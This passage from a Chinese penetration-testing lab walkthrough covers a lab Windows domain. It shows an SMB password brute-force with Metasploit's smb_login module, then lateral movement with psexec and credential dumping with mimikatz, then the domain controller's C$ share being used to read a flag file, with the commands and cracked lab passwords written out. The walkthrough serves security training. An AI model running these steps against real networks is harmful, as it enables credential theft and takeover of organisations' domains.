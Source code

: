 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZd0lpRufOPwMB3tn7e11ciclOPqRCpO4kVKloPoWrj7KUFb1ePJXMMq9A/640?wx_fmt=png)

**4.4 密码枚举**
------------

因为这三台主机都开了 445 端口，可以使用 smb，使用 msf 中的`smb_login`模块进行密码枚举尝试

```
use auxiliary/scanner/smb/smb_loginset rhosts 192.168.93.20set SMBUser Administratorset PASS_FILE /tmp/1W.txtrun
```

这里很幸运，跑出来的密码是`123qwe!ASD`刚好在我的`1W.txt`这个字典里面

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdD9xLjZvaEVNSvYibTaic8jkFkyoA0PRJu98Lqug3P10CSljVYPop7tHA/640?wx_fmt=png)

**4.5 psexec 横向移动**
-------------------

这里使用 proxifier 将 msf 的 socks 代理到本地，忘记截图了 orz...

这里既然已经拿到了 administrator 的密码，使用 ipc 先连接到 20 这一台主机，使用 copy 命令将 mimikatz 拷贝到 20 这台主机上

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdia4XOAsVRlJ3mNo801UkyYVb3ugSkRgicicZjNeapPbfxSHqicXjrP5Hdg/640?wx_fmt=png)

然后使用 psexec 获取一个 cmd 环境，使用 mimikatz 抓取 hash 并保存为日志

```
psexec64.exe \\192.168.93.20 cmdmimiKatz.exe log privilege::debug sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdtq0Huev8e2UtibAQlibaesRPIz0gw8AwnRiaiaIuialoQAPj68xxSQQtAmw/640?wx_fmt=png)

`type mimikatz.log`读取日志内容可以发现域管的帐号密码为`Administrator zxcASDqw123!!`

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZd5iaYTuibJmfOxjZ9DTTgwMQg5GZWawa0hS8X2XAhRAfcbQiaCYibHXAe7Q/640?wx_fmt=png)

那么这里也直接使用 ipc 连接直接连接 10 这台主机，即 TEST 这个域的域控，可以看到已经连接成功了  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZd1KeD7D4jv06BHeIBptddL9wdUS9WFUKtzibWicYwzK55Kc6V1cbCUhtw/640?wx_fmt=png)

使用命令查看机密文件

```
dir \\192.168.93.10\C$\users\Administrator\Documentstype \\192.168.93.10\C$\users\Administrator\Documents\flag.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdZrARyFqEib9g0Ckmr2FzibtUlfCRaPv0ZT0LIgia5pzl0hSoMry8KO13Q/640?wx_fmt=png)

作者：zanthoxylum 

引用链接：https://xz.aliyun.com/t/9840

**推荐阅读：**

  

_**渗透实战系列**_
